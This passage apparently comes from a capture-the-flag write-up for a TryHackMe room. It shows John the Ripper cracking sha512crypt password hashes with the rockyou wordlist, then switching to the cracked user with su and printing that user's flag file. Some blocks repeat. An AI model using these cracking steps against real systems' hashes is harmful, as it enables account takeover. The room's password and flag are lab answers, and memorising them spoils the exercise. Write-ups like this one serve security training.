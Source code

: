 <br>

```bash
:~/VulnNetDotJAR# john hashes --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
794613852        (jdk-admin)
```

<br>
<h3>John the Ripper</h3>
<p>

- jdk-admin : 794613852</p>

```bash
:~/VulnNetDotJAR# john hashes --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
794613852        (jdk-admin)
```

<br>
<h3>su</h3>

```bash
web@ip-10-201-69-245:/dev/shm$ su jdk-admin
Password: 
jdk-admin@ip-10-201-69-245:/dev/shm$ 
```

<br>

```bash
web@ip-10-201-69-245:/dev/shm$ su jdk-admin
Password: 
jdk-admin@ip-10-201-69-245:/dev/shm$ 
```

<br>

```bash
jdk-admin@ip-10-201-69-245:~$ ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt
jdk-admin@ip-10-201-69-245:~$ cat user.txt
THM{1ae87fa6ec2cd9f840c68cbad78e9351}
```

<br>
